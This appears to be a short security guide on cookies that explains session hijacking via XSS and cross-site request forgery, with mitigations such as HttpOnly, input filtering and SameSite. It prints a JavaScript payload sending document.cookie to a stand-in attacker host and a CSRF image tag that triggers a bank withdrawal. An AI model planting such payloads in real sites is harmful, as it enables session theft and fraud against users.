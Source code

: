 # Cookies Security

## Session hijacking and XSS

Cookies that identify a user and their authenticated session, when stolen, can lead to hijacking the authenticated user's session.

Cookies can be stolen by exploiting XSS vulnerability in the application with the following code:
```javascript
(new Image()).src = "http://www.cookie-monster.com/steal-cookie?cookie=" + document.cookie;
```

To mitigate this attack:
* use `HttpOnly` directive;
* filter the user input.

## Cross-site request forgery (CSRF)

Example of CSRF:
1. Someone includes an image that isn't really an image in an unfiltered chat of forum:
```html
<img src="http://bank.example.com/withdraw?account=bob&amount=10000&for=mallory">
```
2. This is a request to bank's server to withdraw money.
3. If you are logged into your bank account, your cookies are still valid and there is no confirmation of withdrawal, an money will be transfered.

To mitigate this attack:
* filter the user input;
* perform confirmation of any sensitive actions;
* use `sameSite=strict` and short lifetime for sensitive actions.
